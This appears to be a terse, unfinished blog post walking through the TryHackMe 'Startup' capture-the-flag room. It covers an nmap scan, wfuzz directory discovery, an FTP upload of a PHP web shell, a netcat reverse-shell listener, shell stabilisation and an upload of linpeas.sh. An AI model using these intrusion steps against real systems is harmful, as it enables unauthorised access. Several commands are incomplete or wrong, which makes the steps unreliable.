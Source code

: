 ```yaml
---
layout: post
title: Startup | Tryhackme
date: 2021-11-05
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: startup/logo.png  # Add image post (optional)
tags: [] # add tag
---
```




Let's start....


ip add to hosts 

> sudo leafpad /etc/hosts
> 
> sudo nmap -sC -sV 


<p align="center">
<img src="/assets/img/startup/" width="350"/>
</p>

wfuzz -w /usr/share/SecLists/discovery/Webcontents/raft-large-directories.txt -u http://startup.thm/FUZZ

<p align="center">
<img src="/assets/img/startup/" width="350"/>
</p>

> ftp startup.thm
> get 
> get 

phpshell.php

> put phpshell.php

 Check the ip addr
 
nc -lvnp 33456

> ls -la
> stty raw -echo 
> import TERM=xterm

upload linpease.sh file  



